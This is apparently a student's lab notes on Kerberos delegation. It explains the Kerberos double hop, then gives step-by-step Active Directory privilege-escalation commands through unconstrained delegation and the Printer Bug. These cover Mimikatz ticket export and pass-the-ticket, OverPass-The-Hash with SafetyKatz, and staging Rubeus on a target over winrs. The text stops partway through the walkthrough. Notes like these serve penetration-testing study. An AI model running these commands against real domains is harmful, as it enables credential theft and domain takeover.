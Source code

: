 Kerberos Delegation allows to "reuse the end-user credentials to access resources hosted on a different server". Typically usefult in multi-tier service or applications where Kerberos Double Hop is required. For example, users authenticate to a web server and web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user and not as the web server's service account.
1. User provides credentials to the DC
2. DC returns a TGT
3. User requests a TGS for the web service on the web server
4. DC provides a TGS
5. User sends TGT inside of TGS to the web server
6. Web server decrypts the TGS (because it has its own secrets which were used to encrypt the TGS) and the web service now has the user's TGT. So the web server service account uses the user's TGT to request a TGS for the database server from the DC
7. web server service account connects to the database server as the user
#### ***2 types of Kerberos Delegation***
In both types of delegations, a mechanism is required to impersonate the incoming user and authenticate to the second hop server (DB server in our example)
	1. General/Basic or Unconstrained Delegation, which allows the first hop server (web server in our example) to request access to any service on any computer in the domain
	2. Constrained Delegation, which allows the first hop server (web server in our example) to request access only to specified services on specified computers. If the user is not using Kerberos authentication to authenticate to the first hop server, Windows offers Protocol Transition to transition the request to Kerberos.
When set for a particular service account, unconstrained delegation allows delegation to any service to any resource on the domain as a user. When unconstrained delegation is enabled, the DC places users's TGT inside TGS (step 4). When presented to the server with unconstrained delegation, the TGT is extracted from TGS and stored in LSASS. This way the server can reuse the user's TGT to access any other resource as the user. This could be used to escalate privileges in case we can compromise the computer with unconstrained delegation and a DA connects to that machine.
# **Privilege Escalation - Unconstrained Delegation**
- #### ***Discover domain computers which have unconstrained delegation enabled***
`Get-DomainComputer -UnConstrained` (PowerView)
`Get-ADComputer -Filter {TrustedForDelegation -eq "$True"}` (AD Module)
`Get-ADUser -Filter {TrustedForDelegation -eq "$True"}` (AD Module)
Compromise the servers where Unconstrained Delegation is enabled, we must trick or wait for a domain admin to connect to a service on appsrv
- #### ***Run Mimikatz and export tickets***
`Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'`
- #### ***The DA ticket could be reused***
`Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'`
# **Privilege Escalation - Unconstrained Delegation - Printer Bug**
A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to a second machine of the domain user's choice. We can force dcorp-dc to connect to dcorp-appsrv by abusing the Printer bug
- #### ***1. Compromise the web server - appsrv***
start a cmd with admin privs, (we extracted multiple credentials from dcorp-adminsrv, including a the appadmin user), start a session as appadmin using OverPass-The-Hash
`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:appadmin /domain:dollarcorp.moneycorp.local /aes256:<AESkey> /run:cmd.exe" "exit"`
(in the new cmd, run InvisiShell)
check if appadmin has local admin privs on dcorp-appsrv
`. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1`
`Find-PSRemotingLocalAdminAccess -ComputerName dcorp-appsrv` (check to see that appadmin has local admin privs on dcorp-appsrv)
`exit`
`echo F | xcopy C:\AD\Tools\Rubeus.exe \\dcorp-appsrv\C$\Users\Public\Rubeus.exe /Y` (copy Rubeus.exe to dcorp-appsrv)
`winrs -r:dcorp-appsrv cmd` (connect to dcorp-appsrv)